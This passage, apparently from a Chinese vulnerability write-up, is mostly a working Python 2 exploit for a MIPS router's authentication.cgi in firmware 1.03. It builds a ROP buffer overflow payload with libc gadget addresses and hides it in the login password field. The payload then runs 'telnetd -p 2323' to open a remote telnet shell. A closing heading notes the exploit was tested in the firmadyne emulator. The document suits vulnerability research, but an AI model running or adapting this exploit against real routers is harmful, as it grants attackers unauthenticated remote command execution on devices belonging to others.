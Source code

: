 ```
        print response.status
        print response.read()
 
if __name__ == '__main__':
    libc = 0x2aaf8000    # so动态库的加载基址
    target = {
        "1.03"  :   [
            0x531ff,    # 伪system函数地址（只不过-1了，曲线救国，避免地址出现00截断字符
            0x158c8,    # rop chain 1（将伪地址+1，得到真正的system地址，曲线救国的跳板
            0x159cc,    # rop chain 2（执行system函数，传参cmd以执行命令
            ],
        }
    v = '1.03'
    cmd = 'telnetd -p 2323'        # 待执行的cmd命令：在2323端口开启telnet服务
    ip = '192.168.0.1'        # 服务器IP地址//here
 
    # 构造payload
    payload = MIPSPayload(endianess="little", badbytes=[0x0d, 0x0a])
 
    payload.AddNops(1011)                # filler # 7. 填充1011个字节，$s0偏移为1104，129行target数组中地址只占了3，04-3=01
    payload.AddAddress(target[v][0], base=libc)    # $s0
    payload.AddNops(4)                            # $s1
    payload.AddNops(4)                            # $s2
    payload.AddNops(4)                            # $s3
    payload.AddNops(4)                            # $s4
    payload.AddAddress(target[v][2], base=libc)    # $s5
    payload.AddNops(4)                            # unused($s6)
    payload.AddNops(4)                            # unused($s7)
    payload.AddNops(4)                            # unused($gp)
    payload.AddAddress(target[v][1], base=libc)    # $ra
    payload.AddNops(4)                            # fill
    payload.AddNops(4)                            # fill
    payload.AddNops(4)                            # fill
    payload.AddNops(4)                            # fill
    payload.Add(cmd)                # shellcode
 
    # 构造http数据包
    pdata = {
        'uid'       :   '3Ad4',
        'password'  :   'AbC' + payload.Build(),
        }
    header = {
        'Cookie'        : 'uid='+'3Ad4',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('authentication.cgi', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)
```
### 漏洞测试
使用firmadyne工具模拟路由器运行成功